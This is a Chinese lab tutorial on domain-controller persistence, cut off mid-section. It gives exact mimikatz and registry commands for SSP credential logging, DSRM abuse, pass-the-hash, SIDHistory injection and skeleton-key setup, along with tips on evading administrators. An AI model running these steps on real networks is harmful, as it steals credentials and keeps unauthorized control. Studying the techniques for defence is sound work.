# 1. 权限维持介绍

在内网中权限维持是非常重要的一部分，很多的时候再拿下一台服务器的时候，如果没做权限维持，可能今天你还能登陆或者访问，明天你就无法访问了，当然也不排除存在那些服务器常年没人管的情况，像这类的服务器基本上都是存在一些小企业，只要服务器正常运行，那就不用管，而且一些大型的企业，都会有固定的管理人员，对相应的服务器进行定期的杀毒，检查，那么如果中木马了，快点的可能几个小时就会被发现，慢点的也就几天。

如果是这样，那么我们前期的权限获取就白费了，那为了使得权限能够长期被维持，很多的大佬也都是使用了各种骚操作，上工具等等，同时由于很多情况下，获取到的权限都是利用一些WEB、系统、程序等上面出现的漏洞，而如果漏洞被修复意味着我们的权限也相当于失效，那么这时就需要对服务器做一定的权限维持，来确保达到长期的控制。

当然，如果服务器重装，那权限维持必然会失败，这是避免不了的，这里的权限维持是指，服务器未重装只是对相关的漏洞进行了修复，而后续我们以实现不靠漏洞来进行权限的维持。

## 1.1. 其他

这里首先让其域控上线，这里已经开始学习权限维持了，那么之前如何拿到域控权限的就不在赘述了。

# 2. 基于验证DLL加载—SPP

`SSP—Security Support Provider`，直译为安全支持提供者，又名 `Security Package`。简单的理解为 `SSP` 就是一个 `DLL`，用来实现身份认证，并且维持系统权限。

## 2.1. 操作演示—临时生效

这里上线我也不想操作了，直接看演示，由于我们进行权限维持不一定非要在域控上进行操作，但是，在域控上进行操作，能够获取到的权限更多，毕竟域控是这个域中的管理员。

### 2.1.1. 执行命令

这里可以使用`mimikatz`进行命令执行，执行后就可以进行操作了，不过需要注意的是，该命令是一次性的，所谓的一次性就是当这台服务器重启后，那么这条命令就无法再次执行了，相当于重启即失效。

```
privilege::debug
misc::memssp
```



### 2.1.2. 切换用户

当将上述命令执行结束后，就可以等着管理员切换用户了，其实也不用切换用户，一般情况下服务器长时间待机都会锁屏，只要等待管理员重新登陆即可，而这里我们直接可以使用切换用户来实现这一操作。

可以看到在下述的文件路径中获取到了登陆的账号密码。

```
C:\Windows\System32\mimilsa.log   ##文件位置。
```



## 2.2. 操作演示—永久生效

这个操作需要修改注册表，是比较麻烦的，同时在`cs`中无法执行交互式命令，所以就需要远程登陆到对方的主机中来进行执行，如果在域中，并且域控不出网，那么会是很复杂的。

好处也是永久失效，不过想要生效，前提条件就是需要对服务器进行一次重启。

所以这里演示我也是直接在域控中操作吧，暂时没其他的好办法。

### 2.2.1. 上传文件

这里需要将`mimikatz`中的`mimilib.dll`上传到域控的`C:\windows\system32\`目录下。



### 2.2.2. 执行命令

这里为什么说无法在cs中执行，仔细看图片，由于在修改过程中，会存在一个交互式的命令，而CS中是无法执行交互式命令的，不过我记得MSF好像是可以直接进行交互式命令的。

不过后来，有位兄弟帮我解决了，感谢。

```
#查看当前注册表中的设置值
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
#修改注册表中的值
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ


#CS中修改注册表中的值
shell echo yes | reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```



CS中操作的效果。



### 2.2.3. 重启生效

上述命令执行完后会在注册表中添加一个`mimilib`也就是会调用`mimilib.dll`，要注意在`mimilib.dll`前面有一个`\0`是换行。并且在重启后会在`C:\windows\system32\kiwissp.log`记录账号密码。



## 2.3. 总结

由于第二种办法需要重启生效，而在实际攻击中，作为攻击者去重启服务器，必然增加了被查的风险，所以最好是相互配合。

这两种办法，各有各的好处，但同时也各有各的坏处，在最好能够将两个手段都利用上，确保成功获取到账号密码，不管是重启后，还是未重启动能够获取到。如果存在文件无法访问的情况，完全可以将文件进行共享，利用共享发送到其他的主机上。

# 3. 基于验证DLL加载—HOOK

关于这个手法，目前是有本地监听与远程监听的，但可惜的是，工具长时间未更新，且本地监听的github项目也已被删除，所以这里感兴趣的去自行搜索吧，这里就不演示了，同时下载下来的程序还需要自动的去编译，并且参考了一些文章，这个工具在执行的时候，很容易出现各种报错。

# 4. 基于机制账号启用—DSRM

DSRM（Diretcory Service Restore  Mode，目录服务恢复模式）是windows域环境中域控制器的安全模式启动选项。域控制器的本地管理员账户也就是DSRM账户，DSRM密码是在DC创建时设置的，一般很少更改。DSRM的用途是：允许管理员在域环境出现故障时还原、修复、重建活动目录数据库。通过在DC上运行ntdsutil 工具可以修改DSRM密码。

## 4.1. 适用版本

适用版本为windows server2008（需安装KB961320才可以使用指定域账号的密码对DSRM的密码进行同步）及以后的版本，windows server2003不能使用此方法。

## 4.2. 操作演示

整个过程多数都是在主机上操作的，所以还是需要远程登陆到域控主机上，要注意隐蔽自己哦。

### 4.2.1. 获取dsrm及krbtgt的NTLM hash

这里使用主机上操作的，不过也可以在CS中操作。

```
privilege::debug
lsadump::lsa /patch /name:webadmin  ##这个域用户可以随便是那个域用户。
token::elevate
lsadump::sam
```



### 4.2.2. dsrm&krbtgt&NTLM hash同步

这里还是需要到主机上操作，由于需要shell交互的太多了，不过条件允许的可以，使用反弹shell进行交互。

```
#进入ntdsutil
ntdsutil
#修改DSRM的密码
set DSRM password
#使DSRM的密码和指定域用户的密码同步 eg:sync from domain account [域用户名]
sync from domain account webadmin
#退出
按两次q即可退出(第1次：退出DSRM密码设置模式;第2次退出ntdsutil)
```



### 4.2.3. 查看同步效果

这里我们查一下，是否已经将dsrm的hash值同步为webadmin用户的hash了。



### 4.2.4. 修改dsrm登陆方式

dsrmadminlogonbehavior代表的是DSRM有三种登录方式

- 0：默认值，只有当域控制器重启并进入DSRM模式时，才可以使用DSRM管理员账号
- 1：只有当本地AD、DS服务停止时，才可以使用DSRM管理员账号登录域控制器
- 2：在任何情况下，都可以使用DSRM管理员账号登录域控制器

```
powershell New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD
```



### 4.2.5. PTH传递攻击

使用mimikatz进行哈希传递，在域成员机器的管理员模式下打开mimikatz，这里可以直接使用CS运行也可以。

```
privilege::debug
sekurlsa::pth /domain:DC /user:administrator /ntlm:518b98ad4178a53695dc997aa02d455c
```



### 4.2.6. 查看效果

这里其实就是在域内主机上弹出一个弹窗，借用这个弹窗来执行命令，来访问域控，而当窗口被关闭后，可以下次借用pth攻击，再次调用起来，确保权限的维持。但是缺点也很明显，我需要远程登陆到域控服务器上，否则弹出的弹窗我并不能利用。



## 4.3. 总结

利用系统自带机制模式DSRM，修改DSRM默认登录方式和属性，通过其同步webadmin进行PTH攻击，实现持续化控制，但适用于系统>=windows server2008。每个域控制器都有本地管理员账号和密码（与域管理员账号和密码不同）。DSRM账号可以作为一个域控制器的本地管理员用户，通过网络连接域控制器，进而控制域控制器。

# 5. 基于用户属性修改—SID—history

SID即安全标识符（Security Identifiers），是标识用户、组和计算机帐户的唯一的号码。在第一次创建该帐户时，将给网络上的每一个帐户发布一个唯一的 SID。

SIDHistory属性的存在是为了解决用户在迁移到另一个域中的时候权限会改变的问题。例如用户zhangsan在A域中本来是管理员，迁移到B域的时候因为sid的改变有可能会变成普通用户权限，这时候如果给zhangsan用户添加一个值为zhangsan在A域中的SID的SIDHistory值就可以解决这个问题，只有域管有更改SIDHistory的权利。

## 5.1. 操作演示

这里的操作也是相对来说比较简单的，同时操作都是可以再CS中完成的。

### 5.1.1. 获取所有用户的SID值

通过获取SID可以看到只有最后的四位值不同，其实这里也就是代表不同的权限。

```
shell wmic useraccount get name,sid
```



### 5.1.2. 获取某个用户SID值

这里使用CS输入命令后，会出现乱码的情况，不过还是能够使用的。

```
powershell Import-Module ActiveDirectory
powershell Get-ADUser webadmin -Properties sidhistory
```



### 5.1.3. 赋予某用户administrator权限

由于这里我登陆的是dbadmin，所以就修改dbadmin，可以看到下面提示成功了。

```
privilege::debug
sid::patch
sid::add /sam:dbadmin /new:administrator
```



### 5.1.4. 查看dbadmin的SID值

可以看到SID history是具备administrator权限了。

```
Import-Module ActiveDirectory
Get-ADUser dbadmin -Properties sidhistory
```



### 5.1.5. 测试

可以看到这里能够正常访问了。

```
dir \\192.168.3.33\c$
```



### 5.1.6. 再次测试

这里再次测试是由于再使用dbadmin的时候，未提前将访问的效果展示出来，后续我又补了一张webadmin的权限前后的效果。



## 5.2. 总结

这个手法就是将域控管理员的SID加入到域内一些恶意用户或者权限低的用户的SID history中，这样域内账户就可以用户域管权限去访问域控了，只要不修改域账号则可以一直访问。

在用户中心的无法查询到变化的，也就是说只要账户不删除就可以一直访问。



# 6. 基于登陆进程劫持—skeleton-key

Skeleton Key（万能密码）方法可以对域内管理员权限进行持久化操作，使用mimikatz完成注入Skeleon Key的操作，将 Skeleton Key注入域控制器的lsass.exe进程。

## 6.1. 操作演示

这里这个操作差不多我研究了一个多小时，当初我是用域内主机配置向DC的访问，理论上都应该是这样的，但是出现一个最大的问题就是，mimikatz一直报错，后来修改了一下，从DC访问内部主机，这样的思路，但是我发现成功成功执行，这我就不得所解了，查了很多的资料均没有这样的，你们可以测试一下，是不是我环境有问题。

下面的均是从DC向域内主机的通行。

### 6.1.1. 测试域内用户与DC通行

这里由于权限问题，我又切换到sqladmin了，可以看到这里是无法访问的。

```
dir \\DC\c$
```



### 6.1.2. 连接DC

这里有一个需要了解的，权限维持是再获取权限后进行的维持，那么此刻你是知道DC的密码的，只是后续的一切权限维持的操作，都是防止DC密码被修改，而导致你无法访问。

由于这里我域内主机出现问题了，所以这里是从DC向域内主机访问，正常情况下DC是都能够访问域内主机的，所以这里建立连接也是演示一下流程。

```
net use \\windows2008\ipc$ "admin@123" /user:0DAY\administrator
```

